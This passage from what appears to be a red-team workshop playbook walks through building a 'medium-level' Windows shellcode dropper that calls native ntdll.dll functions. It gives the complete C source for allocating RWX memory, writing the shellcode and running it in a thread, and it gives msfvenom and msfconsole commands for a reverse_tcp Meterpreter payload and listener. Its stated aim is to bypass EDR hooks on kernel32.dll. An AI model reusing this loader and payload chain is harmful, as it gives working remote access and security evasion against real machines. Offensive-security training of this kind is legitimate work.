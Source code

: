 ## Exercise 3: Medium_Level_API-Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with native APIs (ntdll.dll). We will create a **medium-level API shellcode dropper** and call it a native dropper.
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)



## Exercice 3 tasks:
### Creating the Native Dropper
1. Download the native dropper POC from the Code section of this chapter.
2. The code in the POC is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll. 
3. Then create x64 meterpreter shellcode and copy it into the POC.  
4. Compile the POC as a x64 release. 
5. Create and run a staged x64 meterpreter listener using msfconsole.
6. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Native Dropper
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the POC from the code section of this chapter. In this POC, we replace all the Win32 APIs we used before with the corresponding native function or API.
- NtAllocateVirtualMemory
- NtWriteVirtualMemory
- NtCreateThreadEx
- NtWaitForSingleObject

The code works as follows. Unlike the Windows APIs, most of the native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. To use the native APIs in our Native Dropper, we need to manually define the function pointers for the native APIs. This part is already fully implemented in the Native Dropper POC.
<details>
    
 ```
 // Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);
 ```
</details>
    
    
Shellcode declaration same as before in the Win32 Dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


To load the native functions directly from ntdll.dll, we need to load them manually from ntdll.dll. This code part is not finished and must be completed by the workshop attendee. In the native dropper POC you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```
// Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");
```    
</details>    

For memory allocation, we replace the Windows API VirtualAlloc with the native API **NtAllocateVirtualMemory**.
<details>
    
```    
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```    
</details>    

For shellcode copying, we replace the Windows API WriteProcessMemory with the native API **NtWriteVirtualMemory**.
<details>
    
```
// Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);    
```
</details>    
    

For shellcode execution, we replace the Windows API CreateThread with the native API **NtCreateThreadEx**.
<details>
    
```
// Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);
```
</details>

And finally we have to replace the Windows API WaitForSingleObject with the native API **NtWaitForSingleObject**.
<details>
    
```
// Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);
```
</details>    

Here is the **complete code**, and you can copy and paste this code into your **Medium-Level-Dropper** project in Visual Studio.
You can also download the complete **Medium-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

// Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);


int main() {

    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");


    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 as the main function exit code
    return 0;

}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Medium-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Medium-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Medium-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Medium-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the High-Level-Dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

## Medium-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could observe that there are more transitions from the Windows APIs to the native APIs we used in our Medium-Level-Dropper poc.
This result was expected and is correct because our Medium-Level-Dropper accesses or imports the needed native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject directly from ntdll.dll.
<p align="center">
<img width="522" alt="image" src="https://user-images.githubusercontent.com/50073731/235374864-c7e90dd6-82c6-49d1-a90c-b80a531416b3.png">
</p>
</details>    

## Medium-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Medium-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>


## Summary: Medium-level API Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via medium_level_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR bypassed 
